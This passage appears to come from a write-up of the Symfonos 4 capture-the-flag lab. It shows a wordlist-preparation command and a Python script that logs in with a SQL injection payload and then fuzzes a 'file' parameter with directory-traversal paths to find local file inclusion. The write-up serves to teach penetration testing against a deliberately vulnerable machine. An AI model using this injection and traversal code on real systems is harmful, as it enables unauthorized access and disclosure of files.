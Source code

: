 This page allows us request for a god and returns a description about it, if we remember in the gobuster results we found the directory **gods**, this contains the gods that are being included in the web page. 

![](/assets/images/symfonos4/screenshot-5.png)

**Local File Inclusion**

If we notice that the **.log** extension is not included at the time of requesting a god, so I decided to test Local File Inclusion vulnerability, but removing the .log extension from the word list, as shown below:

```console
root@kali:~$ sed 's/\.log$//g' /usr/share/seclists/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt > wordlist.txt
```

Therefore I decided develop a python script, which will help me find a file that can be included in the parameter **file**.

```python
#!/usr/bin/env python3

import requests

target="http://192.168.179.138/atlantis.php"
payload="' or 1=1 #"
s=requests.session()

def sqli(url,payload):
    values={
            'username':payload,
            'password':'password'
            }

    r=s.post(url,data=values)

def lfi_fuzz(p):
    lfi_req=s.get(f"http://192.168.179.138/sea.php?file=../../../../../../{p}")
    return len(lfi_req.text)

wordlist=open("wordlist.txt").read().splitlines()

if __name__=="__main__":
    sqli(target,payload)
    for p in wordlist:
        x=lfi_fuzz(p)
        if x != 577:
            print(f"{x} {p:50}")
```